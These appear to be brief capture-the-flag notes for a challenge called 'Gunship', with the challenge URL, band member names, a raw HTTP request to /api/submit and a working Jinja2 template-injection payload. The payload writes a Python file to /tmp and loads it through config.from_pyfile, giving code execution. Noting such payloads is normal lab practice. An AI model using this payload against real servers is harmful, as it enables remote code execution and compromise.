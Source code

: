 ## Gunship page
http://139.59.183.98:31337/

## Names
https://www.retro-synthwave.com/artists/gunship

Alex Westaway (singer)

Dan Haigh (synthesizer)

Alex Gingell (drums)

## misc
Dan Haighaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa


POST /api/submit HTTP/1.1
Host: 139.59.183.98:31337
Content-Length: 19
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://139.59.183.98:31337
Referer: http://139.59.183.98:31337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"artist.name":"a"}

?exploit={%set%20a,b,c,d,e,f,g,h,i%20=%20request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337